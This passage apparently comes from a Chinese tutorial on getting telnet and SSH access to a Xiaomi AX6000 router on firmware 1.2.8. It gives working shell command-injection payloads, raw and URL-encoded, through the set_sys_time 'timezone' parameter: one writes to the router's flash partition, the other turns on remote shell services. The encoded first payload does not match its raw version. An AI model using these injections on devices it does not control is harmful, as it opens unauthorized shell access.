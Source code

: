 ### 获取路由器 stok

`stok` 是 `session token` 的缩写。它是用于会话验证的一个令牌，保证了用户操作的安全性。当用户登录小米路由器后台进行配置或管理时，系统会生成一个唯一的 `stok`，这样用户在后续的操作请求中必须提供这个令牌来证明其身份。通过使用 `stok`，小米路由器能够确保只有经过验证的会话才能执行敏感操作，从而防止未授权的访问和操作，增强了设备的安全性。



在登陆米家路由器管理后台（通常是 [http://192.168.31.1](http://192.168.31.1)）后，stok 会在 url 中显示出来：

![image-20231113213021752](https://s3.xiabee.cn/pic/2023/11/055c176307ae48a964517c11a75d9eaf55fb0234720229db1a4ff35d2e0ea548.png)

注意：每个 session 都有自己的生命周期，`stok` 一段时间后会自行销毁，如果遇到 `403` 等未授权的问题可以尝试刷新页面，获取新的 `stok`。

后文将用 `${YOUR_STOK}` 代替需要填入的 `stok`。



### 开启调试模式

调试模式开启前是不可以直接 telnet 连接路由器的：

![image-20231113175953173](https://s3.xiabee.cn/pic/2023/11/5d3a30a88cf29c28baf2764d76c05cc926f42098f5af0bba40526d6f3f8f151e.png)



因此我们需要先打开调试模式。在 1.2.8 版本的固件下，可以通过如下代码注入使 AX6000 打开调试模式：

```bash 
' ; zz=$(dd if=/dev/zero bs=1 count=2 2>/dev/null) ; printf 'Z%c%c' $zz $zz | mtd write - crash ;
```



因此，我们在在浏览器的 url 栏中输入经过 url encode 的 url，注意替换 `${YOUR_STOK}`：

```http
http://192.168.31.1/cgi-bin/luci/;stok=${YOUR_STOK}/api/misystem/set_sys_time?timezone=%20%27%20%3B%20zz%3D%24%28dd%20if%3D%2Fdev%2Fzero%20bs%3D1%20count%3D2%202%3E%2Fdev%2Fnull%29%20%3B%20printf%20%27%A5%5A%25c%25c%27%20%24zz%20%24zz%20%7C%20mtd%20write%20-%20crash%20%3B%20
```



返回 `{"code":0}` 代表执行成功：

![image-20231107182134768](https://s3.xiabee.cn/pic/2023/11/b8ad538b58d59012220ef7416fa81037257aec9081d98513fd31bf6e76e91810.png)

### 设置 Bdata 永久开启 telnet

注入代码：

```bash
 ' ; bdata set telnet_en=1 ; bdata set ssh_en=1 ; bdata set uart_en=1 ; bdata commit ; 
```



我们在在浏览器的 url 栏中输入经过 url encode 的 url，注意替换 `${YOUR_STOK}`：

```http
http://192.168.31.1/cgi-bin/luci/;stok=${YOUR_STOK}/api/misystem/set_sys_time?timezone=%20%27%20%3B%20bdata%20set%20telnet_en%3D1%20%3B%20bdata%20set%20ssh_en%3D1%20%3B%20bdata%20set%20uart_en%3D1%20%3B%20bdata%20commit%20%3B%20
```
